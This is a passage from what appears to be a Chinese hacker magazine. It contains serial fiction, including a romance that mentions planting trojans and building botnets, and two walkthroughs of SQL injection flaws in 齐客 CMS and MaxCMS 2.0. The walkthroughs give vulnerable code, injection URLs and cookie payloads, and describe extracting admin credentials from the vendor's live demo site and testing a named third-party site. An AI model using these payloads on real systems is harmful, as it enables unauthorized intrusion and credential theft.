几天后我收到那个主考官的电话，大致的意思就是通知我来上班了。临结尾说了一句：“本来是准备招那个薪资要求最低的年轻人，不过考虑到他太年轻，可能有些事情还是做得不好，所以尽管你要求的薪资是最高的一个，但是我们对你的经历表示满意，也相信你能够做好今后的工作。”

这个结果在意料之外，也在意料之内。其实很多时候，不是低价才有竞争力，要得多，同样说明一个问题：对自我能力的肯定以及拉高与低层次之间的距离。换句话说，工资有时候只是一种标示地位，而不是代表技术能力。

其实我最郁闷的是，这几天也没有看到特仑苏。本以为这么漂亮的 MM 一定会是前台接待，然而很明显，前台这个并不是。我问那天面试我的帅哥：“面试的时候不是有几个小姐和您一起走来的吗？嗯，就是喝特仑苏的那位。”

他面带职业微笑，但稍微有些抽搐地告诉我，特仑苏不是公司员工。

我心想，只要不是你老婆，那我总有机会不是。

机会……所以说，机会才是最重要的。

（未完待续）

**编辑点评：**

在《断头台》系列结束之后的 2009 年阳春三月，《特仑苏》系列带着一股浓浓的春意迎面而来，虽然还是有着作者早期那种略带“流氓”的写作风格，但是却新加入了作者早期作品中所没有的温情笔触。文字背景是目前金融危机的大环境，乍一看还以为会很沉重，但是仔细读完，却发现有往纯爱方向发展的迹象。到底后面会发生什么事，就请期待下一期 nohack “黑小说”——《特仑苏》！

## The Way You Make Me Feel Cherish

我以为可以把你忘记，我以为已经把你忘记，可为什么在无眠的夜里仍然是你的影子在眼前闪动，是你楚楚的目光让我孤独的心温暖而宽慰。总以为时间可以冲淡一切，也以为距离可以拉断一切，我真的以为一声“不爱”就可以真的放弃。可是为什么？为什么梦里仍然是你影子的叮咛？

你说，希望我们能够像从前一样，说你不值得我去爱。

你知道吗？每次见你之前我都要想好多，我要想你要不要弄网站，要不要忙着《黑客手册》的投稿，要不要抽点时间种木马抓肉鸡，要不要和网友 QQ 些经验，我的心真的好累。为了让你安心地投入网络的探索，我从来不在你面前哭，如果实在受不了了，就自己躲在被子里偷偷地哭过再去找你。我说，放下了对你的爱，不是不爱，而是爱得更深了。

最初，我只知道我很在乎你，或者可以说有点喜欢你，但是没有想过爱上你。可是这个暑假里你把手机丢了，我联系不到你了，突然觉得我的世界崩溃了，发现我对你的感情不再是那么地单纯，已经悄悄地爱上你了。但是我不敢告诉你，因为我害怕你不接受我，我们连朋友都没得做了，我害怕因为发现一份爱而彻底地失去了这份爱。我想了好久，还是没有勇气当面和你说，我决定用 QQ 给你发即时信息，我小心地说：

“我想和你说件事，你能先答应我你不会生气，我说出来之后如果你不同意，我们还可以做朋友，好吗？”

你的头像在闪动，我紧张地看着你的回应，“嗯，你说吧，只要不损害尊严什么的，我就答应了。”

我的心跳开始加速，我颤抖着在键盘上敲了几个字，“做我的男朋友。”

你立刻回复了，“你在开玩笑吧？呵呵。”

我看着你发来的信息真的想哭出来，有种被戏弄的感觉，我的话你竟然认为是在开玩笑。

我平静了一下，接着敲击键盘，“我是认真的。”

你好像感觉到了硝烟的味道，于是以要计算机等级考试为借口，说考试完我们好好谈谈吧。我答应了，其实我很想马上得到答案，但是你就要考三级了，我不能惹你烦心，影响你的过级，我一直记着，网络工程师是你的梦想。

我安静地等待着考试的结束，等待着你给我个明确的答复，尽管心里会隐隐作痛。你说星期三见面，我明知道那天上午自己的课排得满满的，但是什么都没有说。因为当时我就觉得，能够再见你都是上天对我的恩赐了，还管它有课没课呢，也许那就是最后一面了。

星期三终于到来了，我根本都没有心情去上课，你说你上午有一节课，我就在宿舍等到你快下课的时候（因为我不想害你逃课），穿上鞋准备去找你。外面下着好大的雨，但是没有丝毫动摇我要见你的心。

# 黑小说

到了你们校区，我就开始给你打电话，连续打了五六次都没有人接。除了等，我别无选择。站在你们宿舍楼的附近，我打着伞徘徊，运动鞋里浸满了雨水，我浑身冻得在颤抖，却没有过放弃而回去的想法，我一直在等着你会回电话。

足足在那里站了一个多小时，看着匆匆的人群，我也想到处走走，但是我对你们校区实在很陌生，竟不知道自己随着人流该浪到哪里。开始有点绝望了，这时，手机响了，最特殊的铃声《没有你的日子我真的好孤单》，我知道是你了。

接通了，我不知道自己的具体位置，就描述身边有个白色石膏做的大的月牙，你猜到我可能是在花坛附近，我们站在花坛对面却看不到对方。我的手机再次响了，猛然抬头，终于看见了你。

你问我想要什么样的答复，我想了想说，答应。我用伞努力挡住脸，因为我不敢看你。你打着把漏雨的伞蹲下了，仰着头，像个孩子似的看着我，笑着又问我喜欢你什么。我喜欢你学“黑”的志向，我喜欢你黑色沉默的性格，就是一种踏实感觉，这算理由么？

其实我自己也不知道，所以除了沉默什么都没有做了。我知道你是出于怜悯之心让我去吃饭（因为我的胃不好，不好好吃饭会难受的），我不想吃，勉强的是没有心情去吃。看着你那无奈的样子，我也很难过。

你说你答应我是需要一份责任，不答应我你又很担心。最后，你说答应和我开始交往，但前提是让我先去吃饭。我真的不知道自己的感觉是感激还是感动，就跟着你出去了。可是，当吃完饭你送我走时，我有种上当的感觉。但是你确实为了上网忙得自己都顾不上吃饭，我怎么能因为一份自己理想中的爱情而耽搁你网络领域的梦想呢！

我不知道，我真的不知道，一个人的一生能爱几次？望着你，我可以不说话，可以不流泪，可以在心里对自己说，你快乐所以我快乐，但是就是没办法告诉你，我爱你。

你说，你是在乎我的，很珍惜我们之间的缘分。你知道吗？我比你更珍惜我们的相遇，从一开始我就承诺对你绝对的坦诚。认识了你，我开始喜欢上网，呵呵，也许这就是传说中的“爱屋及乌”吧！

记得我们第一次交谈就是 QQ，那时候我们还没有见过面。那天我用手机 3g.qq.com 上网，网速特别慢，突然看见你的头像亮着，我有点激动（因为我对你很崇拜，听说你是黑客），于是我开启了话题。

> “你好，呵呵~~”

“你是谁啊？？？”你很快地回复了。

“我？我是你未曾谋面的徒弟呀！！！”我急切又带有几分郁闷地解释说。

“晕，我忘了，不好意思啊。”

“呵呵，你是哪里人啊？为什么认我做师傅啊？”

“你是不是就为了好玩啊？”

“你打字这么慢啊，这可不像我徒弟呀。”

你说了一连串的话，我手机那份“极”的网速真把我急坏了。

“我用手机上网，网速太慢了。拜拜了。”

就这样，结束了第一次对话，我有种意犹未尽的感觉，连自己师傅的名字还不知道呢。于是，第二天我去网吧上网了，发现你没在线，但是听说你非常喜欢上网，我想也许隐身了吧，就试着发了条即时信息。

> “在么？？”

“嗯。”

“师傅，我希望我们能成为知心朋友，不要是死板的师徒关系。”

“好啊，你喜欢什么啊？想让我教你什么呢？”

“我不知道，我希望我的二级 C 过了。”

“呵呵，我觉得女生学点网络不错，网络上有好多浪漫的东西，一般女生都喜欢浪漫。”

> “说说你吧，师傅！！！”

“我啊？前几天我给‘黑手’投稿了，不知道录用没录用。”

接着你把“黑手”给你回信的一部分信息截图过来了，我看得也是一头雾水。

“他们会不会是给我退稿的意思啊？？？难道是最近我人品不好么？”

“不会吧，你再等等。你现在在做什么啊？”

“制网页，下午有网页课，老师布置的作业还没弄完呢！”

“是吗？师傅，那你忙吧！拜拜喽。”

其实我好想和你多聊几句，对师傅多了解一点，但是，在我心里，你做什么事情很重要，也许一开始给自己的定位就太卑微了。可是，我自己也不明白，为什么在你面前我就会心甘情愿地低头。

到了中午，我在睡午觉，你给我发信息很兴奋地说：“师傅的稿子在《黑客手册》上发表了，我一个人高兴不过来，快帮我高兴高兴！！”顿时，我有种同喜同悲的感觉，又觉得你有点像个孩子。总之你开心我就很快乐，不过也因为看得出来，你对《黑客手册》这本杂志的崇拜和喜好。后来，你又加入了 L.S.T，我鼓励你继续努力，我以你而骄傲。

回想着我们的相识，有点心痛落寞，开始明白，我对于你的爱，痛苦的不是过去，而是回忆。

时间过得真的好快，寒假又到了，我们在一起走过半年了。尽管你没有给我个明确的答复，每个周末去找你已经成了习惯。回家前我们匆匆见了最后一面，我和你要了两本《非安全》杂志，学习一下怎么写黑小说。我想把对你的感触写成小说，希望能在这本杂志上发表，让你能看到，我相信你一定能看到的。

那样，一定会给你个惊喜，也会让你明白我爱你有多深。我期待着我们牵手共明天的日子，希望你能对我们之间的这段感情做出思考。你知道吗？我现在真的好想你。

思念是一种很痛很酸的滋味，我从来不曾把你从心里抹去，而是藏在心的更深处了。从来不敢告诉你，其实你一直都在我心灵的最深处。什么才是爱？！当时间流过，一切冲动、浪漫、激情消灭，你对那个人的牵挂及关心丝毫未减，那便是爱了。想你，却不能告诉你。我想你，夜是那么的静，静得能让我听到心碎的声音。

我不知道，我真的不知道，一个人的一生能爱几次？真爱也许就一次！这种爱，不是门当户对，也不是一见钟情。真爱至上的境界，一个人的一生也许能遇到，也许不能遇到，没有人能够告诉我。

长长的路上只有我一个人，一个人慢慢地走着，那种无端的忧愁袭击着我，一种莫名的伤感在心头回荡，对你的思念越来越深，我很想找一个宁静的深夜，把许多心底的惆怅、哀寞，向你倾诉。

深夜，静静地坐在电脑前，我陷入了深深的思念之中。此刻比任何时候都孤独，我怀疑自己的真实。我不知道该如何调整自己的步伐，伤痛的心灵需要静静地安抚，时间却无法将这一切尘封。这种爱是刻骨铭心的，无论怎样努力也无法从心头驱散。

我孤独地徘徊在这荒漠的世界上，人生注定是孤单的。心痛了，心碎了，不会有人看见，我却渴望着伸出手轻触你的脸庞；那一刻，我落下了眼泪，忽然间看见真实的自己，忽然想卸下自己伪装的坚强。那一刻，我只有一个愿望，想大声告诉你：我爱你！我想你！愿你在“黑手”中茁壮成长。

**编辑点评：**

看完第一遍的时候，以为发来的是“鹅读互动”，仔细阅读之后才发现，这是一篇出自 MM 之手的小说呢。虽然文笔有些青涩，但感觉文章条理还是不错的，希望作者再接再厉，写出更优秀的作品。

# 新闻练练看

新闻首语：

都过年去了，有多少人会有时间和心情来研究一下代码呢？虽然稿件不多，可质量却不差的哦！这期还是我——“冰的原点”，为大家奉上新一期的“新闻练练看”栏目。我也挺喜欢这个栏目的，编辑这期栏目的乐趣还是比较多的，希望还有机会在这栏目中露脸，呵呵。

## 从分析齐客 CMS 注射 0day 到思维拓展

凋落叶纷飞[JJSEX] @ 华庆增中

**从本文你可以学到：**
- 齐客 CMS 漏洞的分析

08 年末的时候，齐客 CMS 的 0day 暴了出来，但是好像并没有人做详细的分析，这次我们就来分析一下这个漏洞的成因。存在注射的 URL 是 `/common/comment.asp?dataid=14789&channel=down`，下面我们来分析一下这个文件。

由于程序的代码编写风格非常独特，有点类似于面向对象，所以新手朋友看起来可能比较困难，我们先来看 `\common\comment.asp` 的部分代码：

```vb
...............省略...............
call doWebHead()
call doSkinParse("comment", "")
call doWebEnd()
sub doPageParse()
    if ops.request.getQuery("action")="view" then
        // 如果攻击 action 为 view 则
        dim tmpURL, tmpChannel, tmpAction
        tmpChannel=ops.request.getQuery("channel")
        // 变量 tmpChannel 并没有做任何过滤
        tmpAction="view"
        if instr(tmpChannel,".")>0 then
            tmpAction=tmpAction&"./"&mid(tmpChannel,instr(tmpChannel,".")+1)
            tmpChannel=mid(tmpChannel,1,instr(tmpChannel,".")-1)
        end if
        chn.setChannel(tmpChannel)
        chn.doInit()
        tmpURL=chn.getLinkURL(tmpAction,"id="&ops.request.getQueryID("id"))
        if len(tmpURL)<1 then tmpURL=DIR_ROOT
        go tmpURL
    else
        // 否则调用 setMode("full"), doLoad() 和 doParse()，PS：doLoadUser() 被注释了
        modComment.setMode("full")
        modComment.doLoad()
        'modComment.doLoadUser()
        modComment.doParse()
        // 这个 doParse() 过程就是存在问题的过程
    end if
end sub
...............省略...............
```

我们先来看看 doLoad() 过程的代码。doLoad() 过程存在于 `\common\include\VOPS\Model Comment.asp` 文件中，以下是它的部分代码：

```vb
...............省略...............
public sub doLoad()
    doLoadConfig()
    doLoadTemplate()
    // 调用 doLoadConfig() 过程和 doLoadTemplate() 过程
end sub

public sub doLoadConfig()
    var_Channel=ops.request.getQuery("channel")
    // 注意此变量，它并没有做任何过滤
...............省略...............
if len(var_ChannelPage)<1 then var_ChannelPage=ops.request.getQuery("_page")
else
    var_Mode="view"
    var_ChannelPage=ops.request.getBrowsePaths()
end if
end if

dim tmpTreeVar: set tmpTreeVar=new utilTree
tmpTreeVar.addItem "skin",var_Skin
tmpTreeVar.addItem "channel",var_Channel
tmpTreeVar.addItem "dataid",var_dataid
set tree_Config=ops.getConfigVarTree("common.common/comment/config", tmpTreeVar)
tmpTreeVar=1
if var_Mode="full" then
    if len(var_ChannelPage)<1 then var_ChannelPage=tree_Config.getItem("url.page")
end if
end sub
...............省略...............
```

现在我们来看看 doParse() 过程的代码：

```vb
...............省略...............
public sub doParse()
if not isTree(tree_Template) then exit sub
dim tplFrame: tplFrame=tree_Template.getItem("page."&var_Mode)
var_Output=tplFrame
dim tmpSQL,tmpSQLQuery
tmpSQLQuery="nsort='"&var_Channel&"' and id="&var_dataid&" and _hidden=1"
// 注入漏洞产生，存在问题的变量为 var_Channel
dim isTrue:isTrue=false
if var_Mode="full" then
    doParsePost()
    isTrue=var_isPost
    dim p
    set p=new libPaging
    p.setDataCfg "url",var_ChannelPage
    p.setPageNum(5)
    p.setListNum(15)
    p.setDataDB "table",TABLE_COMMENT_NAME
    p.setDataDB "id",tree_Config.getItem("table.id")
    p.setDataDB "field","*"
    p.setDataDB "query",tmpSQLQuery
    p.setDataDB "order",tree_Config.getItem("table.list.order")
    var_Total=ops.db.getQueryInt(p.getSql("count"))
    p.setSum(var_Total)
    'p.loadTemplate("")
    p.doParse()
    if p.getSum()>0 then
        tmpSQL=p.getSql("query")
        set table_Items=ops.db.getQueryTable(tmpSQL)
    end if
    var_paging=p.toString()
    set p=nothing
end if
if var_Mode="view" then
    tmpSQL=ops.db.toSQLSelect(TABLE_COMMENT_NAME,"count","*",tmpSQLQuery)
    var_Total=ops.db.getQueryInt(tmpSQL)
    tmpSQLQuery=tmpSQLQuery&(" order by "&tree_Config.getItem("table.list.order"))
    tmpSQL=ops.db.toSQLSelect(TABLE_COMMENT_NAME,"5","*",tmpSQLQuery)
    set table_Items=ops.db.getQueryTable(tmpSQL)
end if
```

```vb
Dim rMatch, rMatches, rFlags, rFlag, rFlagValue, rFlagPrefixLen
set rMatches = opsReg.ex("...", 0).ParseMatches(var_Output)
...
For Each rMatch In rMatches
    rFlags = rMatch.value
    rFlag = mid(rFlags, rFlagPrefixLen, len(rFlags) - rFlagPrefixLen)
    rFlagValue = getModule(rFlag)
    var_Output = replace(var_Output, rFlags, rFlagValue)
Next
...
var_Output = tpl.toParseApp(var_Output)
if var_output<>skin, toReplaceVar(var_Output)
end sub
```

省略。

就这样，注射漏洞产生了，下面我们来找个网站测试一下！我找到的站点地址是“http://www.jisuyu.com/”，现在我们来试试提交这样的 URL：“http://www.jisuyu.com/common/comment.asp?dataid=1&channel=jiuoye”，发现程序报错了，如图 1 所示。


图 1

接下来的事情就不多说了，不过有一点要说清楚，这个是评论页的注射漏洞，我们要注射的时候最好先找一个有评论的帖子，然后根据它的 ID 来进入评论页注射。如果直接用“/common/comment.asp?dataid=1&channel=jiuoye”这个地址来注射的话，有可能会发生 and 1=1 和 and 1=2 的页面是一样的情况，注射点变成了盲注，这是因为目标站点并没有文章的 ID 等于 1，所以请各位朋友测试的时候要注意了！

好了，分析完这个注射漏洞后，我们就来拓展一下思维，寻找其他的注射漏洞。通过分析代码我了解到，齐客 CMS 对每个数字型变量都用了自己写的一个检查变量是否为数字的函数来进行过滤，这就使得我们必须把希望寄托给字符型注射了，上面的注射漏洞就是一个例子。

这里我想到了一个几乎每套 WEB 程序都要用到的变量名——username，所以我把注射漏洞的挖掘定在了 username 这个变量。在寻找另外的注射漏洞之前，我们有必要看看齐客 CMS 的一些过滤函数。

首先来看看 isSecure() 函数的代码：

```vb
public function isSecure(byval strer)
    dim tmpUnallowed
    isSecure = False
    if len(strer)>0 then
        if InStr(strer, "'") > 0 Or InStr(strer, '"') > 0 Or InStr(strer, Chr(9)) > 0 Or InStr(strer, Chr(10)) > 0 Or InStr(strer, Chr(13)) > 0 Or InStr(strer, Chr(32)) > 0 Then Exit Function
        Dim bb
        For bb = 1 To Len(strer)
            if InStr(1, tmpUnallowed, Mid(strer, bb, 1), 1) >= 0 Then Exit Function
        Next
        isSecure = True
    end if
end function
```

代码中过滤了很多我们注射常用到的字符，不过并不太严格，其中就有单引号“'”，如果这个过滤函数加在了数字型变量上，我们是有机可乘的；但如果是加在字符型变量上的话，那就几乎没有绕过了。

接下来我们再看看 isUsername() 和 isName() 两个函数，以下是它们的代码：

```vb
public function isUsername(byval strer)
    isUsername=False
    if len(strer)>0 then
        Dim bb
        For bb = 1 To Len(strer)
            if InStr(1, SYMBOL_Username, Mid(strer, bb, 1), 1) <> 0 Then Exit Function
        Next
        isUsername = True
    end if
end function

public function isName(byval strer)
    isName = False
    if len(strer)>0 then
        if InStr(strer, "'") > 0 Or InStr(strer, '"') > 0 Or InStr(strer, Chr(9)) > 0 Or InStr(strer, Chr(10)) > 0 Or InStr(strer, Chr(13)) > 0 Or InStr(strer, Chr(32)) > 0 Then Exit Function
        Dim bb
        For bb = 1 To Len(strer)
            if InStr(1, SYMBOL_NameUnallowed, Mid(strer, bb, 1), 1) > 0 Then Exit Function
        Next
        isName = True
    end if
end function
```

从 isUsername() 函数可以看出，这个函数并没有作什么过滤，仅仅是作了用户名正确与否的判断，所以存在很大的问题。而 isName() 函数则和 isSecure() 函数差不多。

了解完齐客 CMS 的注射漏洞后，我们就可以开始寻找目标了。这里我找到了 `\account\mail.asp` 文件里的一处注射，以下是部分漏洞代码：

```vb
...省略...
sub doPageParse()
    treeData.addItem "_skin", "list"
    m_id = ops.request.getQueryID("id")
    select case lcase(cp.module)
        case "post"
            treeData.addItem "_skin", "form"
            select case cp.action
                case "transmit"
                    call doMailTransmit()
                case "reply"
                    call doMailReply()
                case else
                    call doMailWrite()
            end select
            user.setAuth(1)
            user.setAuthMode(2)
            user.doInitAgain()
        case "draftbox"
            select case cp.action
                case "view"
                    treeData.addItem "_skin", "view"
                    call doMailView()
```

我们来看一看 doMailWrite() 过程的部分代码：

```vb
case else
    cp.subtitle="草稿箱"
    call doMailList()
end select

……省略………………

sub doMailWrite()
    dim tmpTree,tmpNum,tmpUserid,tmpMSG,tmpSQL,tmpUsername,tmpisDraft

    tmpisDraft=false
    cp.loadPages()
    ctl.pages.setFormTitle("")
    ctl.pages.setFormChannel("mail")
    ctl.pages.setFormFile("")
    'ctl.pages.addFormVar "att_group", getBookgroupAtt()
    'ctl.pages.setFormTree(tmpTree)
    tmpUsername=ops.request.getQuery("username")
    if not opsCheck.isUsername(tmpUsername) then tmpUsername=""
    ' isUsername() 函数仅仅是作了用户名正确与否的判断，所以存在很大的问题

    ctl.pages.addFormTreeItem "m_username", tmpUsername
    ctl.pages.loadForm()
    if ctl.pages.isFormPost() then
        cp.doPagesParse()
    if int(treeData.getItemInt("isDraft"))=1 then tmpisDraft=true

    ……省略………………

    dim tmpTreeUserInfo
    set tmpTreeUserInfo=user.getDataBaseTree("userid,u_groupid", "username='"&treeData.getItem("m_username")&"'")
    if tmpTreeUserInfo.getCount()>0 then
        tmpUserid=tmpTreeUserInfo.getItemInt("userid")
        dim tmpUserGroupMailMax,tmpUserMailTotal
        tmpUserGroupMailMax=toNum(user.getGroupsConfig(tmpTreeUserInfo.getItemInt("u_groupid"),36))
        tmpUserMailTotal=user.getMailTotal(tmpUserid)

    ……省略………………

    if treeData.getItem("m_username")=user.username then ctl.e.addItem "您不能给自己发送短信"

    ……省略………………
```

```vb
treeData.addItem "r_message", opsScript.JSMake(ctl.e.toJS(),"")
else
    dim tmpFields
    tmpFields="username,userid,m_username,m_userid,m_topic,m_remark,m_time,m_type,m_isread,m_issys"
    treeData.addItem "username", user.username
    treeData.addItem "userid", user.userid
    treeData.addItem "m_userid", user.getDataBase("userid", "username='"&treeData.getItem("m_username")&"'")
    treeData.addItem "m_time", cps.time.getNow()
    treeData.addItem "m_isread", 0
    treeData.addItem "m_issys", 0

    ……省略………………

    tmpNum=ops.db.getQueryInt("select top 1 * from db_user where username='"&treeData.getItem("m_username")&"'")
    ' 注入漏洞产生！
    call opsDBA.doExecuteInsert("db_user_mail", tmpFields, treeData)
    ……省略………………
```

接下来我们测试一下，首先注册两个用户，假设为 aaaa 和 bbbb。接着我们登录用户 aaaa，在用户中心打开发送站内短信的功能，在用户名处输入“`bbbb'`”，注射漏洞就产生了，如图 2 所示。


图 2

好了，齐客 CMS 的两个注射 0day 就为大家介绍到这里。

> **编辑点评：** 文章里代码中的关键部分作者都已经加了注释，好好学习一下。多多关注此类风格的代码，漏洞的发现自然就不在话下了。

# 从本文你可以学到：注入的一些基本知识

马克斯电影网站管理程序几乎占领了国内 ASP 电影系统的所有市场，一直以来它都并未爆出过危害比较大的漏洞。这不，最近无聊下了这套程序的 2.0 最新版来读，发现其存在几处严重的漏洞，下面我们就来分析一下这几个漏洞的成因吧！

## 全面剖析马克斯电影网站 注射 0day

作者：醉十纷飞 @ 华庆端中

### 一、形同虚设的 IP 记录功能

首先我们看看这套程序的防御系统，它的防注射函数 Function preventSqlin() 相关代码如下：

```vb
Function preventSqlin(content, vtype)
    dim sqlStr, sqlArray
    sqlStr=" %'27|''|''|*|and|exec|dbcc|drop|openrowset|select|update|delete|count|master|truncate|char|declare|where|set|declare|mid|chr"
    if isNull(content) then Exit Function
    sqlArray = split(sqlStr,"|")
    for i=lbound(sqlArray) to ubound(sqlArray)
        if instr(lcase(content), sqlArray(i))<>0 then
            if vtype="filter" then
                content=replace(content,sqlArray(i),"",1,-1,1)
            else
                echoSaveStr "safe"
                Exit Function
            end if
        end if
    next
    preventSqlin=content
End Function
```

这个函数过滤了 **and、select、单引号“'”和分号“;”** 等注射攻击中常用的字符，所以想绕过这个防注入函数还比较难。下面我们再来看看用来记录攻击者 IP 的 echoSaveStr() 函数，代码如下：

```vb
Sub echoSaveStr(ptype)
    ……省略………………
    select case ptype
        case "safe"
            die cssstr&"<div id='msg'><div class='msgtitle'>[警告] 非法提交</div><div id='msgbody'>你提交的数据有非法字符，你的IP <B>"&getIp&"</B> 已被记录，操作时间："&now()&"</div><div id='msgbottom'>Powered By "&siteName&"</div></div>"
        case "null"
            die cssstr&"<div id='msg'><div class='msgtitle'>[警告] 参数错误：</div><div id='msgbody'><b>错误描述</b>：参数为空或不正确</div>"
    end select
End Sub
```

这里它用到 getIp() 函数，代码如下：

```vb
Function getIp()
    dim forwardFor
    forwardFor = request.servervariables("Http_X_Forwarded_For")
    if forwardFor = "" then
        getIp = request.servervariables("Remote_Addr")
    else
        getIp = forwardFor
    end if
    getIp = replace(getIp, chr(39), "")
End Function
```

从代码中可以看出，这个函数仅仅是用来截取客户端的 IP，而上面 echoSaveStr() 函数仅仅是调用了一下 getIp() 函数，所以这个会记录攻击者 IP 的防御体系简直是用来吓唬人的。

### 二、存在于 Cookies 的隐秘注射

接下来我们看看第一个注射漏洞，admin/admin_inc.asp 文件的部分代码如下：

```vb
Sub checkPower
    dim loginValidate, rsObj
    loginValidate = "maxcms2_Q"
    err.clear
    on error resume next
    set rsObj=conn.db("select m_random,m_level from {pre}manager where m_username='"&rCookie("m_username")&"'").execute()
    loginValidate = md5(getAgent&getIp&rsObj(0))
    if err then
        wCookie "check"&rCookie("m_username"), "", 0
        <script>top.location.href='index.asp?action=login'</script>
    end if
    if rCookie("check"&rCookie("m_username"))<>loginValidate then
        wCookie "check"&rCookie("m_username"), "", 0
        <script>top.location.href='index.asp?action=login'</script>
    end if
    checkManagerLevel rsObj(1)
    set rsObj=nothing
End Sub
```

这个函数用到了 rCookie() 函数，以下是这个函数的代码：

```vb
Function rCookie(cookieName)
    rCookie = request.cookies(cookieName)
End Function
```

从中可以看出，rCookie() 函数的作用仅仅是以 Cookies 的方式去接收数据，而 checkPower() 函数中的 m_username 变量在经过 Cookies 的取值之后，直接就进入到数据库进行查询，这就导致了注射漏洞的产生。

我们再来看看 admin/index.asp 文件是怎么调用 checkPower() 函数的，代码如下：

```vb
dim action
action = getForm("action", "get")
Select case action
    case "login" : login
    case "check" : checkLogin
    case "logout" : clearPower
    case "notice" : notice
    case else : main
End Select

m_id,m_level=999,m_username=admin%27
...
Sub main
    checkPower
    ...
```

呵呵，只要变量 action 的值不是“login”“check”“logout”和“notice”，就调用 main() 函数，而 main() 函数直接就调用了存在漏洞的 checkPower() 函数。

现在我们来测试下，首先打开 MyBrowser，然后在 MyBrowser 中打开“http://127.1/ms/admin/index.asp”，然后我们修改 Cookies 的值为“m_username=luoye”，再在地址后面加上“?action=nohack”，完整的 URL 就是“http://127.1/ms/admin/index.asp?action=nohack”。一切准备就绪后，我们刷新一下，看到数据库查询出错的提示了，如图 1 所示。


接下来的工作我想大家比我还熟悉吧？好了，这个漏洞就到这里。

### 三、逻辑型注射漏洞

接下来看第三个注射漏洞，它是一个逻辑型的注射漏洞。为什么说是逻辑型呢？分析一下你就知道啦！

我们来看一下 inc/ajax.asp 文件的部分漏洞代码：

```vb
..........省略..........
dim action : action = getForm("action", "get")
response.Charset="gbk"
Select case action
    case "newslist" : viewNewsList
    case "newscontent" : viewNewsContent
    case "digg", "tread" : scoreVideo(action)
    ' 存在漏洞的函数
    case "reporter" : reportErr
    case "hit" : updateHit
    case else : main
End Select
..........省略..........

Sub scoreVideo(operType)
    dim sql,id,digg,returnValue : id=getForm("id", "get")
    ' 获取变量 ID 的值
    if rCookie("maxcms2_score"&id)<>"ok" then die "havescore"
    if isNull(id) then die "err"
    ' 变量 ID 为空则显示 "err"
    on error resume next
    ' 这里的容错语句被注释掉了
    digg=conn.db("select m_digg from {pre}data where m_id="&id).execute()(0)
    ' 进入数据库进行查询
    if err then digg=0 : err.clear()
    ' 如果没有发生错误则
    if not isNum(id) then echoSaveStr("safe") else id=clng(id)
    ' 如果这里 ID 的类型为数字则表示安全，并用 clng() 函数进行强制转换
    if operType="digg" then
        sql="update {pre}data set m_digg=m_digg+1 where m_id="&id
        returnValue=digg+1
    elseif operType="tread" then
        sql="update {pre}data set m_digg=m_digg-1 where m_id="&id
        returnValue=digg-1
    else
        die "err"
    end if
    if operType="tread" and digg=0 then
        wCookieInTime "maxcms2_score"&id, "ok", "h", 12 : die digg
    conn.db(sql).execute
    wCookieInTime "maxcms2_score"&id, "ok", "h", 12
    if err then die "err" : err.clear() else die returnValue
End Sub

..........省略..........
```

其中使用的 getForm() 函数的代码如下：

```vb
Function getForm(element, ftype)
    Select case ftype
        case "get"
            getForm=trim(request.QueryString(element))
        case "post"
            getForm=trim(request.Form(element))
        case "both"
            getForm=trim(request(element))
    End Select
End Function
```

这个函数只是用来接收变量的提交值，并没有做什么过滤，大家仔细看看 **scoreVideo()** 函数过程和我的注释，可以发现不管怎样，变量 ID 的值都会在没过滤的情况下先进入数据库查询一次。尽管它在后面会强制转换成数字型，但是漏洞已经产生了。接下来我们测试一下，首先打开这样的 URL：`http://127.1/inc/ajax.asp?action=digg&id=1`，如图 2 所示。


这里我说明一下，不同的站返回的页面不一定完全一样，我们分别提交如下三个 URL：

- `http://127.1/inc/ajax.asp?action=digg`
- `http://127.1/inc/ajax.asp?action=digg&id=1%20and%20'1'='1`
- `http://127.1/inc/ajax.asp?action=digg&id=1%20and%20'1'='2`

分别返回如图 3、图 4、图 5 所示的页面。由于防注射函数的原因，当值为正确的时候会返回“你的 IP 已被记录”的页面（前面已经说过，这个功能是用来吓唬人的），当错误的时候是直接报错。还有一点就是，不能直接用 union 查询，需要我们一个一个地猜字符，这几点朋友们要注意了。


### 四、实战官方演示站

接下来我们就到官方的演示站测试下，地址是 `http://demo.maxcms.net`。我们打开 `http://demo.maxcms.net/inc/ajax.asp?action=digg&id=1`，然后测试刚才所说的三个语句，如图 6、图 7、图 8 所示。


马克斯电影整站程序的管理员表默认为 **m_manager**，列名分别为 **m_username** 和 **m_pwd**，我手工猜了十多分钟就猜出官方的管理员信息。管理员账号为 `admin`，密码散列为 `21232f297a57a5**`（为了避免不必要的麻烦，HASH 的最后两位我用 `*` 代替）。

### 五、反思

其实马克斯电影程序的安全性还是挺不错的，毕竟是国内 ASP 影视程序的第一把交椅，但是由于这小小的疏忽，就导致了漏洞的产生，可见安全真是无处不在啊！最后我们来看一下它上一个版本 1.5 的某个漏洞代码：

```vb
……省略……
randFlag=login=maxz.exec("select loginip from zt_admin where adminname='"&request.cookies("AdminName")&"'",1)(0)
……省略……
```

可见变量 adminname 在经过 Cookies 方式取值后并没有做任何过滤就进入到数据库进行查询了，这也是 1.5 版唯一的注射漏洞。但从代码风格看来，2.0 版本与 1.5 版可是截然不同：1.5 版采用的是传统的编写风格，而最新的 2.0 版却是使用了类似乔客的代码编写风格，从某一角度看，安全性提高了不少，同时也阻碍了一部分水平比较低的朋友。

### 六、后话

好了，马克斯电影程序的漏洞就分析到这里，如果各位读者还有什么疑问，可以到 NOHACK 的论坛找我，最后祝 NOHACK 越办越好，读者们的技术节节高升！

> **编辑点评：** 做新闻系统，做影视系统……不管是做什么系统，安全始终是不可忽视的因素。大家好好学习一下本文吧，初学者应该还是看得懂的。

## “asp安全续谈”补遗

墨孤水挽城 [L.S.T]

从本文你可以学到：
一些安全加固的知识

记得08年第10期的“黑手”上猪哥曾经写过一篇叫做《asp安全续谈》的文章，其中分别写了“Session安全”、“robots.txt安全”、“数据库安全”及“网站目录安全”这几块内容。个人感觉对于ASP网站安全，涉及的东西很多，也很杂，只写这几个方面似乎有点单薄，所以就想写个续篇。根据自己以前掌控站，还有对网站源码分析的经验和总结，本文说说自己对于ASP网站安全的看法，希望各位菜鸟能学到点东西，大牛们见笑了。

### 一、服务器安全配置

服务器的安全配置可以说是网站安全的第一道关卡，如果服务器出了安全问题，那么即使网站程序设计得再安全，也会被黑客很轻易地攻破，所以我把它放到网站安全的第一位，不只是ASP，其它脚本等同。

